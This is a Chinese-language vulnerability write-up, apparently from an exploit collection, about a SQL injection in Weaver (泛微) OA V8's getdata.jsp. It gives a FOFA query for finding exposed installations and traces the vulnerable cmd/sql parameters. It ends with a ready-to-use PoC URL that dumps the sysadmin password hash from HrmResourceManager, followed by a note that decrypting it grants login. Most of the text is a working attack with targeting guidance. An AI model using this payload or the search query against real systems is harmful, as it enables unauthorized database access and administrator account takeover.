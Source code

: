 # 泛微OA V8 getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理

![image-20220209104257902](./images/202202091042978.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![image-20220209104319947](./images/202202091043985.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![image-20220209104335191](./images/202202091043319.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![image-20220209104351654](./images/202202091043694.png)解密后即可登录系统

![image-20220209104408461](./images/202202091044509.png)
